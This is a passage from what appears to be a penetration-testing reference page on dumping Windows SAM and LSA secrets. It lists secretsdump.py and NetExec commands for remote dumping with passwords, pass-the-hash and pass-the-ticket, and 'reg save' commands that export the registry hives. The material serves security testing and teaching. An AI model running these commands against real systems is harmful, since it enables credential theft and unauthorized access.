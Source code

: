 ```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k -no-pass 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Live Windows" %}
### REG

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```
